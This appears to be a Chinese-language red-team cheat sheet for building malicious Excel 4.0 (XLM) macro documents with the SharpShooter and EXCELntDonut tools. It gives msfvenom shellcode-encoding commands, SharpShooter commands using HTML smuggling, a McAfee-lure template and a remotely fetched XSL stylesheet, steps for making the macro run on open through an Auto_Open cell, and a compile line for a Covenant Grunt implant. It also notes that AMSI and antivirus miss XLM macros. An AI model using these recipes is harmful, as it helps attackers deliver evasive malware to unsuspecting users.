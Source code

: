 # XLM Excel 4.0 - SharpShooter

* [GitHub链接](https://github.com/mdsecactivebreach/SharpShooter)

```powershell
# 选项
-rawscfile <路径>  无状态载荷的原始shellcode文件路径
--scfile <路径>    作为CSharp字节数组的shellcode文件路径
python SharpShooter.py --payload slk --rawscfile shellcode.bin --output test

# 创建VBA宏
# 创建一个VBA宏文件，该文件使用XMLDOM COM接口检索并执行托管的样式表。
SharpShooter.py --stageless --dotnetver 2 --payload macro --output foo --rawscfile ./x86payload.bin --com xslremote --awlurl http://192.168.2.8:8080/foo.xsl

# 创建启用Excel 4.0 SLK宏的文档
~# /!\ Shellcode不能包含空字节
msfvenom -p generic/custom PAYLOADFILE=./payload.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o shellcode-encoded.bin -b '\x00'
SharpShooter.py --payload slk --output foo --rawscfile ~./x86payload.bin --smuggle --template mcafee

msfvenom -p generic/custom PAYLOADFILE=payload86.bin -a x86 --platform windows -e x86/shikata_ga_nai -f raw -o /tmp/shellcode-86.bin -b '\x00'
SharpShooter.py --payload slk --output foo --rawscfile /tmp/shellcode-86.bin --smuggle --template mcafee
```

# XLM Excel 4.0 - EXCELntDonut

* XLM（Excel 4.0）宏早于VBA，可以在.xls文件中交付。
* AMSI目前无法查看XLM宏
* 杀毒软件与XLM的对抗较困难
* XLM宏可以访问Win32 API（virtualalloc, createthread等）

1. 打开Excel工作簿。
2. 右键点击“Sheet 1”然后选择“插入...”。选择“MS Excel 4.0 Macro”。
3. 在文本编辑器中打开EXCELntDonut输出文件并复制所有内容。
4. 将EXCELntDonut输出的文本粘贴到XLM宏表的A列。
5. 此时，所有内容都在A列。为了解决这个问题，我们将使用“数据”选项卡下的“文本分列”/“转换”工具。
6. 选中A列并打开“文本分列”工具。选择“分隔符”然后在下一个屏幕上选择“分号”。点击“完成”。
7. 右键点击单元格A1*并选择“运行”。这将执行您的有效载荷以确保其正常工作。
8. 为了启用自动执行，我们需要将单元格A1*重命名为“Auto_Open”。您可以通过点击A1单元格，然后点击A列上方的框来更改文本，将“A1”*更改为“Auto_Open”。保存文件并验证自动执行是否有效。

:警告: 如果您使用了混淆标志，在文本分列操作之后，您的宏不会从A1开始。相反，它们会从右边至少100列开始。水平滚动直到您看到第一个文本单元格。假设那个单元格是HJ1。如果是这种情况，那么完成步骤6-7，用HJ1代替A1。

```ps1
git clone https://github.com/FortyNorthSecurity/EXCELntDonut

-f 包含您的C#源代码的文件路径（exe或dll）
-c 类名，您希望调用的方法所在的位置（dll）
-m 包含可执行有效载荷的方法（dll）
-r 编译C#代码所需的引用（例如：-r 'System.Management'）
-o 输出文件名
--sandbox 执行基本沙箱检查。
--obfuscate 执行基本宏混淆。

# Fork
git clone https://github.com/d-sec-net/EXCELntDonut/blob/master/EXCELntDonut/drive.py
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -platform:x64 -out:GruntHttpX64.exe C:\Users\User\Desktop\covenSource.cs
```
